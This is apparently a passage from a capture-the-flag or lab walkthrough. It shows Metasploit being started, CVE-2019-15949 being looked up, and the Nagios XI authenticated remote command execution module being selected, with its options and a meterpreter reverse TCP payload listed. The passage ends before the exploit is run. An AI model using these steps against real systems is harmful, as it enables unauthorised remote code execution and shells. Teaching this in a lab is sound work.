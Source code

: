 **Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`.**

~~~
$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search CVE-2019-15949

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Authenticated Remote Command Execution


msf5 > use 0
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to NagiosXI
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagios_xi_authenticated_rce) > 
~~~
